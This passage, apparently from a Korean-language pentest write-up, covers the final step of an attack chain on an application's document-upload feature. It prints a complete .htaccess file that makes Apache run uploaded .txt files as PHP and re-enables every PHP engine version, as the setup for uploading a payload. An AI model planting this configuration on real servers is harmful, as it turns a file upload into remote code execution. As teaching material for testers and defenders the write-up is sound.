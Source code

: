 <figure><img src="../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

### Part 3 (기능 _문서 추가_ 활용) <a href="#part-3-leveraging-feature-add-document" id="part-3-leveraging-feature-add-document"></a>

마지막 단계는 가장 간단하며, 두 개의 하위 단계로 나뉩니다. 첫 번째는 .htaccess 형식의 파일을 업로드하여 Apache 지시어를 활용하고 .txt 파일이 PHP 엔진에 의해 해석되도록 허용하는 것입니다. 두 번째는 우리의 페이로드를 포함하는 .txt 파일을 업로드하는 것입니다.

File: .htaccess
```
<Files *>
SetHandler application/x-httpd-php
</Files>

# Vroum! Vroum!
# We reactivate PHP engines for all versions in order to be targetless.
<IfModule mod_php.c>
php_flag engine on
</IfModule>
<IfModule mod_php7.c>
php_flag engine on
</IfModule>
<IfModule mod_php5.c>
php_flag engine on
</IfModule>
```
왜 이 트릭이 멋진가요?
